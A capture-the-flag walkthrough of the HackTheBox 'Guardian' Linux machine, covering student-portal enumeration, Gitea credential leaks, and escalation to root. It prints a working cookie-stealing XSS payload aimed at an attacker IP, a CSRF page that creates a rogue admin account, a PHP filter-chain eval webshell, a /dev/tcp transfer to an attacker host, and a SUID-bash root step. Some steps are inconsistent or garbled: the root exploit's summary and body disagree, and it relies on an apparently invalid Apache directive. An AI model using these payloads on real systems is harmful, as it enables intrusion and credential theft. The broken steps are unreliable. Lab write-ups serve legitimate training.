


# Gurdian

```
Difficulty: Hard
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**


### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Details |
| :--- | :--- | :--- | :--- |
| 1 | `(Local)` | Nmap Scan, Subdomain Enumeration | The initial Nmap scan revealed ports 22 (SSH) and 80 (HTTP). Browsing the main website at `guardian.htb` led to the discovery of the `portal.guardian.htb` subdomain within the page's source code. The portal's "Help" page provided the default password `GUXXXX` for students. |
| 2 | `GU0142023` | Credential Reuse, Portal Enumeration | A student ID from the main site (`GU0142023`) combined with the default password `GUXXXX` granted access to the student portal. Once inside, enumerating a chat feature by brute-forcing the `chat_users` parameter revealed a chat log containing Gitea credentials for the user `jamil.enockson`. |
| 3 | `jamil.enockson` | Information Gathering (Gitea) | Logging into the Gitea instance with `jamil.enockson`'s credentials exposed the source code for the student portal. This included the `config/config.php` file, which contained the database credentials (`root:Gu4rd14nXXXXXXXXXXXXXXXX`) and the password salt (`8Sb)tXXXXXXX`). The code also revealed an admin user account. |
| 4 | `admin (via XSS)` | Cross-Site Scripting (XSS), Stolen Cookie | The portal's file upload feature for spreadsheets was vulnerable to an XSS attack via the `PhpSpreadsheet` library. A malicious `.xlsx` file with a sheet name set to an XSS payload `<script>location.href='http://[your_ip]?c='+document.cookie</script>` was uploaded. When the admin user reviewed this file, their session cookie was sent to our listener. |
| 5 | `attacker (via CSRF)` | Cross-Site Request Forgery (CSRF) | An analysis of the `createuser.php` and `csrf-tokens.php` files in the Gitea repository revealed a CSRF vulnerability. The `is_valid_token` function checked for the presence of a token but never removed it from the pool. We created a malicious HTML file (`exploit.html`) with a valid, previously seen CSRF token. This file was hosted and then its URL was sent to the admin via the Notice Board, resulting in the creation of a new admin account with our chosen credentials. |
| 6 | `jamil` | Password Cracking (Database Dump) | With access to the database credentials from step 3, we connected to the MySQL server and dumped the `users` table. The password hashes were a salted SHA256. Using the salt `8Sb)tXXXXXXX`, we cracked the hash for `jamil.enockson` (`c1d8dfaeeXXXXXXff4f9a43ee440250`), revealing the password `coXXXXXXX`. This allowed us to log in via SSH as the `jamil` user. |
| 7 | `mark` | `sudo` Permission Abuse, File Modification | As `jamil`, the `sudo -l` command showed that we could run `/opt/scripts/utilities/utilities.py` as the user `mark` without a password. The script's `system-status` function was callable by any user. By exploiting the group-write permissions on the `status.py` file, we added a reverse shell command to the `system_status()` function. Executing the script then granted a shell as `mark`. |
| 8 | `root` | `sudo` Permission Abuse, Binary Exploitation (LPE) | Checking `sudo -l` as `mark` revealed that the user could run `/usr/local/bin/safeapache2ctl` as root. A decompiled analysis of this binary showed it was a secure wrapper for `apache2ctl`, but it contained a flawed logic for validating the `-f` flag. The binary allowed the `LoadModule` directive if the specified path was within `/home/mark/confs/`, even if it pointed to a malicious file. We created a small C program to set the SUID bit on `/bin/bash`, compiled it into a shared object (`.so`) file, and wrote a simple Apache config file to load it. Running the binary with `sudo` executed our payload, granting a root shell by running `bash -p`. |


### Initial Enumeration and Subdomain Discovery

1.  **Nmap Scan:** Begin with a comprehensive Nmap scan to identify open ports and services on the target machine.
    ```bash
    nmap -p- -T4 guardian.htb
    ```
    The scan reveals ports **22 (SSH)** and **80 (HTTP)** are open.
2.  **Web Enumeration:** Access the main website on `http://guardian.htb`. The page source reveals a subdomain, `portal.guardian.htb`.


3.  **Subdomain Access:** Add `guardian.htb` and `portal.guardian.htb` to your `/etc/hosts` file.
    ```bash
    echo "10.10.11.84 guardian.htb portal.guardian.htb gitea.guardian.htb" | sudo tee -a /etc/hosts
    ```
4.  **Portal Analysis:** Navigate to `http://portal.guardian.htb`. This is a student login portal. The **Help** section reveals the default password for new students is **GUXXXX**. The main page of `guardian.htb` lists several student email addresses, which can be used to infer the username format: `GU[ID]`.


-----

### Gaining Initial Access (Jamil)

1.  **Login to the Portal:** Try the default password with a student username from the main site.
      * **Username:** `GU0142023`
      * **Password:** `GUXXXX`
        This successfully logs you into the portal.

2.  **Information Gathering:** Explore the portal. The chat feature URL, `chat.php`, has a `chat_users` parameter, which is vulnerable to a numeric ID enumeration.

3. 

**Method 1**

 **Chat User Enumeration:** Use a tool like **ffuf** to brute-force the `chat_users` parameter and uncover a new chat log.
    ```bash
    ffuf -u 'http://portal.guardian.htb/student/chat.php?chat_users[0]=FUZZ1&chat_users[1]=FUZZ2' -w /usr/share/seclists/Fuzzing/8-digit-numbers.txt:FUZZ1 -w /usr/share/seclists/Fuzzing/8-digit-numbers.txt:FUZZ2 -mode clusterbomb -H 'Cookie: PHPSESSID=[your_session_id]' -fl 178,164
    ```

    ***Note:** Replace `[your_session_id]` with your active session cookie.*

**Method 2**

     **Intercept the Request**
   - Open the chat page in your browser.
   - Capture the request to `chat.php` with `chat_users[0]` and `chat_users[1]` parameters.
   - Example request:
     ```
     GET /student/chat.php?chat_users[0]=12345678&chat_users[1]=87654321 HTTP/1.1
     Cookie: PHPSESSID=[your_session_id]
     ```

    **Send to Intruder**
   - Right-click the intercepted request → **Send to Intruder**.

    **Configure Positions**
   - Go to **Intruder → Positions**.
   - Highlight the values of `chat_users[0]` and `chat_users[1]` and click **Add §**.
   - Set **Attack type** → **Cluster Bomb**.

    **Load Payloads**
   - **Payload Set 1** (chat_users[0]):
     - Select **Simple list** → Load `/usr/share/seclists/Fuzzing/8-digit-numbers.txt`.
   - **Payload Set 2** (chat_users[1]):
     - Select **Simple list** → Load the same wordlist.

    **Configure Filters (Optional)**
   - Go to **Options → Response length / status code filters**.
   - Filter out irrelevant responses by content length (e.g., `178, 164`) or other indicators.

    **Start Attack**
   - Click **Start attack**.
   - Review responses for valid chat logs (different length or keywords indicate success).


    The output reveals a chat between user IDs **1** and **2**. The chat reveals credentials for a Git server.
      * **Username:** `jamil.enockson@guardian.htb`
      * **Password:** `DHsNnXXXXXX`

4.  **Gitea Login:** Access `http://guardian.htb/gitea` and log in with the newfound credentials.


-----

### Privilege Escalation (Web)

1.  **Database Credentials:** Within the Gitea repository for the `portal.guardian.htb` project, find the `config/config.php` file. This file contains the database credentials.
      * **Username:** `root`
      * **Password:** `Gu4rd14nXXXXXXXXXXXXXXXX`
      * **Salt:** `8Sb)tXXXXXXX`

      


2.  **XSS Vulnerability :** A vulnerability exists in the `PhpSpreadsheet` library used by the portal. The `generateNavigation()` function is susceptible to **Cross-Site Scripting (XSS)** via a maliciously crafted spreadsheet with a specific sheet name.


      * Create a spreadsheet (e.g., using FastGrid or a Python library like `openpyxl`).
      * Set the sheet name to an XSS payload, such as `<script>location.href='http://[your_ip]?c='+document.cookie</script>`.


      * Upload the `.xlsx` file to the portal's upload endpoint.


3.  **CSRF (Teacher):** When the Admin user views the uploaded spreadsheet, the XSS payload will fire, sending their session cookie to your listener.
      * Set up a netcat listener on your machine: `python -m http.server 80`.
      * The listener will capture the Teacher's `PHPSESSID`.
      
      * Use this new session ID to access the learner portal


CSRF_Token


4.  **Admin Panel Analysis:** The `createuser.php` file in the Gitea repository reveals a **Cross-Site Request Forgery (CSRF)** vulnerability. The CSRF token validation logic in `csrf-tokens.php` is flawed; it checks if a token exists but never removes it from the pool.

```
<?php
require '../includes/auth.php';
require '../config/db.php';
require '../models/User.php';
require '../config/csrf-tokens.php';

$token = bin2hex(random_bytes(16));
add_token_to_pool($token);

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$config = require '../config/config.php';
$salt = $config['salt'];

$userModel = new User($pdo);

if ($_SERVER['REQUEST_METHOD'] === 'POST') {

    $csrf_token = $_POST['csrf_token'] ?? '';

    if (!is_valid_token($csrf_token)) {
        die("Invalid CSRF token!");
    }

    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';
    $full_name = $_POST['full_name'] ?? '';
    $email = $_POST['email'] ?? '';
    $dob = $_POST['dob'] ?? '';
    $address = $_POST['address'] ?? '';
    $user_role = $_POST['user_role'] ?? '';

    // Check for empty fields
    if (empty($username) || empty($password) || empty($full_name) || empty($email) || empty($dob) || empty($address) || empty($user_role)) {
        $error = "All fields are required. Please fill in all fields.";
    } else {
        $password = hash('sha256', $password . $salt);

        $data = [
            'username' => $username,
            'password_hash' => $password,
            'full_name' => $full_name,
            'email' => $email,
            'dob' => $dob,
            'address' => $address,
            'user_role' => $user_role
        ];

        if ($userModel->create($data)) {
            header('Location: /admin/users.php?created=true');
            exit();
        } else {
            $error = "Failed to create user. Please try again.";
        }
    }
}
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Create User - Admin Dashboard</title>
    <link href="../static/vendor/tailwindcss/tailwind.min.css" rel="stylesheet">
    <link href="../static/styles/icons.css" rel="stylesheet">
    <style>
        body {
            display: flex;
            height: 100vh;
            overflow: hidden;
        }

        .sidebar {
            flex-shrink: 0;
            width: 15rem;
            background-color: #1a202c;
            color: white;
        }

        .main-content {
            flex: 1;
            overflow-y: auto;
        }
    </style>
</head>

<body class="bg-gray-100">
    <div class="sidebar">
       
        <?php include '../includes/admin/sidebar.php'; ?>
    </div>

    
    <div class="main-content">
        <nav class="bg-white shadow-sm">
            <div class="mx-6 py-4">
                <h1 class="text-2xl font-semibold text-gray-800">Create New User</h1>
            </div>
        </nav>

        <div class="p-6">
            <div class="bg-white rounded-lg shadow p-6">
                <?php if (isset($error)): ?>
                    <div class="bg-red-100 text-red-700 p-4 rounded mb-4">
                        <?php echo htmlspecialchars($error); ?>
                    </div>
                <?php endif; ?>
                <form method="POST" class="space-y-4">
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Username</label>
                        <input type="text" name="username" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Password</label>
                        <input type="password" name="password" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Full Name</label>
                        <input type="text" name="full_name" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Email</label>
                        <input type="email" name="email" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Date of Birth (YYYY-MM-DD)</label>
                        <input type="date" name="dob" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Address</label>
                        <textarea name="address" rows="3" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500"></textarea>
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">User Role</label>
                        <select name="user_role" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                            <option value="student">Student</option>
                            <option value="lecturer">Lecturer</option>
                            <option value="admin">Admin</option>
                        </select>
                    </div>
                    <input type="hidden" name="csrf_token" value="<?= htmlspecialchars($token) ?>">
                    <div class="flex justify-end">
                        <button type="submit" class="bg-indigo-600 text-white px-4 py-2 rounded-lg hover:bg-indigo-700">
                            Create User
                        </button>
                    </div>
                </form>
            </div>
        </div>
    </div>
</body>

</html>
```


      * Create a simple HTML file (`exploit.html`) that uses a known CSRF token to submit a `POST` request to `createuser.php` to create a new admin user.

      * The `csrf_token` can be taken from the page source of `createuser.php`.

 Token Logic     
```
<?php

$global_tokens_file = __DIR__ . '/tokens.json';

function get_token_pool()
{
    global $global_tokens_file;
    return file_exists($global_tokens_file) ? json_decode(file_get_contents($global_tokens_file), true) : [];
}

function add_token_to_pool($token)
{
    global $global_tokens_file;
    $tokens = get_token_pool();
    $tokens[] = $token;
    file_put_contents($global_tokens_file, json_encode($tokens));
}

function is_valid_token($token)
{
    $tokens = get_token_pool();
    return in_array($token, $tokens);
}
```


      * Host this HTML file on a web server on your machine.

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF Exploit</title>
</head>
<body>
<h1>CSRF Exploit Test</h1>
<form id="csrfForm" action="http://portal.guardian.htb/admin/createuser.php" method="POST">
    <input type="hidden" name="username" value="attacker">
    <input type="hidden" name="password" value="P@ssw0rd123">
    <input type="hidden" name="full_name" value="Attacker User">
    <input type="hidden" name="email" value="attacker@example.com">
    <input type="hidden" name="dob" value="1990-01-01">
    <input type="hidden" name="address" value="123 Hackers Street">
    <input type="hidden" name="user_role" value="admin">
    <input type="hidden" name="csrf_token" value="14b64777f2548919f7bed8eb22168c3a">
</form>
<script>
    document.getElementById('csrfForm').submit();
</script>
</body>
</html>
```

      * Send the link to the Admin user via the Notice Board on the portal, which is a monitored resource.


      * The admin's browser will execute the HTML, creating a new admin account for you.

      * **New Credentials:** `username: attacker`, `password: P@ssw0rd123`


## Local File Inclusion (LFI)

The admin panel's "Reports" section has a `file` parameter in its URL, suggesting a potential Local File Inclusion (LFI) vulnerability.


However, a direct attempt to read a file like `/etc/passwd` fails due to security restrictions. The `report.php` source code, found in the Gitea repository, reveals the reasons for this failure.

```php
<?php
require '../includes/auth.php';
require '../config/db.php';
if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}
$report = $_GET['report'] ?? 'reports/academic.php';
if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}
if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}
?>
```

The code implements two main security checks:

1.  **Directory Traversal Filter:** The `strpos($report, '..')` check prevents any path traversal attempts using `..`.
2.  **Filename Whitelist:** The `preg_match` function restricts the `report` parameter to end with one of four specific filenames: `enrollment.php`, `academic.php`, `financial.php`, or `system.php`.

### Exploiting with PHP Filter Chains

Since we cannot use path traversal, we can leverage **PHP filter chains** to bypass the filename whitelist and read arbitrary files. A filter chain allows for base64 encoding or decoding of file contents, which doesn't trigger the filename check at the end of the URL.

A payload can be crafted to use a filter chain to convert a PHP reverse shell payload into a format that can be written to a temporary file, which is then included and executed. The filename `system.php` is appended to the end of the chain to satisfy the `preg_match` check without affecting the filter's output.

A Python tool like `php_filter_chain_generator.py` can be used to create the necessary payload.

```bash
python php_filter_chain_generator.py --chain '<?php eval($_POST["a"]);?>'
```

This generates a long, complex PHP filter chain that, when used in the `report` parameter, will execute the provided PHP code.


reports.php

```
<?php
require '../includes/auth.php';
require '../config/db.php';

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$report = $_GET['report'] ?? 'reports/academic.php';

if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}   

if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}

?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <title>Reports Menu</title>
    <link href="../static/vendor/tailwindcss/tailwind.min.css" rel="stylesheet">
    <link href="../static/styles/icons.css" rel="stylesheet">
    <style>
        body {
            display: flex;
            height: 100vh;
            overflow: hidden;
            background-color: #f3f4f6;
        }

        .sidebar {
            flex-shrink: 0;
            background-color: #1e293b;
            color: white;
        }

        .main-content {
            flex: 1;
            overflow-y: auto;
        }
    </style>
</head>

<body class="bg-gray-100">
    <div class="sidebar"><?php include '../includes/admin/sidebar.php'; ?></div>
    <div class="main-content">
        <div class="flex-1 p-10">
            <h1 class="text-3xl font-bold mb-6 text-gray-800">Reports Menu</h1>
            <div class="grid grid-cols-1 md:grid-cols-2 gap-6">
                <a href="?report=reports/enrollment.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-blue-600">Enrollment Report</h2>
                    <p class="text-gray-600">View enrollment statistics and trends.</p>
                </a>
                <a href="?report=reports/academic.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-purple-600">Academic Report</h2>
                    <p class="text-gray-600">Explore academic data like GPA and faculty info.</p>
                </a>
                <a href="?report=reports/financial.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-green-600">Financial Report</h2>
                    <p class="text-gray-600">Review financial figures and revenue trends.</p>
                </a>
                <a href="?report=reports/system.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-indigo-600">System Report</h2>
                    <p class="text-gray-600">Check system health and usage statistics.</p>
                </a>
            </div>
           
            <?php include($report); ?>
            
        </div>
    </div>
</body>

</html>
```

### Getting a Reverse Shell

The final URL for the LFI exploit is constructed by appending the generated filter chain and the whitelisted filename (`system.php`) to the `report.php` endpoint.

```
http://portal.guardian.htb/admin/reports.php?report=PHP_FILTER_CHAINS,system.php
```

After visiting this URL, a reverse shell can be triggered by sending a `POST` request with the `a` parameter to the same URL, which will execute the `eval()` function, leading to a shell on the server.


5.  **SQL Database Exploration:** Use the `root` database credentials to connect to the MySQL instance from your shell (after gaining a shell, see the next step). The `users` table contains password hashes.


      * The password hashing function is `hash('sha256', $password . $salt)`.
      * The salt, `8Sb)tXXXXXXX`, is found in `config.php`.
      * Use a tool like John the Ripper or a Python script to crack the hashes.
      * The hash for `jamil.enockson` cracks to `copperhouse56`.


6.  **SSH to Jamil's Account:** Use the cracked password to SSH into the machine as `jamil`.
    ```bash
    ssh jamil@guardian.htb
    ```
    This grants you initial user access.



As the user `jamil`, you can escalate privileges to `mark` by exploiting a misconfiguration in the `sudo` permissions and file system.

-----

### Privilege Escalation from Jamil to Mark

The `sudo -l` command for the `jamil` user shows that you can run the `/opt/scripts/utilities/utilities.py` script as the `mark` user without needing a password.



The script's source code reveals that most functions (`backup-db`, `zip-attachments`, `collect-logs`) require the executing user to be `mark`. However, the `system-status` function has no such restriction, making it accessible to any user who can execute the script.

By inspecting the file permissions within the `/opt/scripts/utilities/utils` directory, you can see that the `admins` group has write permissions. Since the `jamil` user is a member of this group, you can modify the `status.py` file.

The attack vector is to modify the `system_status()` function in `status.py` to contain a reverse shell payload. When you execute the script with `sudo` as `mark`, the modified function will be run, giving you a shell with `mark`'s privileges.

To elevate privileges from the **jamil** user to the **mark** user, you must exploit a misconfigured `sudo` permission and a writable file.


### Gaining a Shell as Mark

1.  **Enumerate Sudo Permissions:** The `sudo -l` command for the `jamil` user reveals the ability to execute the `/opt/scripts/utilities/utilities.py` script as the `mark` user without a password.


View sudo

```
mark@guardian:~$ sudo -l
Matching Defaults entries for mark on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on guardian:
    (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```


Get it out and decompile it

```
mark@guardian:~$ cat /usr/local/bin/safeapache2ctl > /dev/tcp/10.10.XX.XX/8888
```

```
 nc -lvnp 8888 > safeapache2ctl                 
listening on [any] 8888 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] 47832
```


-----

### Privilege Escalation to Root

After gaining access as `mark`, the final step is to escalate to `root`. Running `sudo -l` again as `mark` reveals that this user can run `/usr/local/bin/safeapache2ctl` as **root** without a password. This binary is the key to achieving full system control.


6. **Binary Analysis:** The `safeapache2ctl` binary is a wrapper for `apache2ctl`. A decompiled analysis shows it restricts the configuration file (`-f`) to a specific directory (`/home/mark/confs/`) and filters dangerous directives like `Include`, `IncludeOptional`, and `LoadModule`.

   * However, the filter is flawed. It only blocks absolute paths that are **not** within `/home/mark/confs/`. This means you can use an `Include` directive to point to a malicious file inside the allowed directory.

7. **Exploitation:**

   * Create a small shell script that will escalate privileges by setting the SUID bit on `/bin/bash`.

   

  

   ```bash
   cat << 'EOF' > /home/mark/confs/run.sh
   #!/bin/bash
   chmod +s /bin/bash
   EOF
   chmod +x /home/mark/confs/run.sh
   ```

   * Create a new Apache configuration file (`evil.inc`) in `/home/mark/confs/` that executes your script.


   ```bash
   cat << EOF > /home/mark/confs/evil.inc
   <IfModule !dummy_module>
       ExecStart "/home/mark/confs/run.sh"
   </IfModule>
   EOF
   ```

   * Create the main Apache configuration file (`exploit.conf`) that includes your malicious file.

 

   ```bash
   echo "Include /home/mark/confs/evil.inc" > /home/mark/confs/exploit.conf
   ```

   * Execute the binary with `sudo` to load your configuration file.


   ```bash
   sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/exploit.conf
   ```


   This will set the SUID bit on `/bin/bash`.

8. **Get Root Shell:** Run `bash` with the `-p` flag to execute it with root permissions.

   ```bash
   /bin/bash -p
   ```


   You now have a root shell! You can read the `root.txt` file.

---

**Pwned! Guradian**
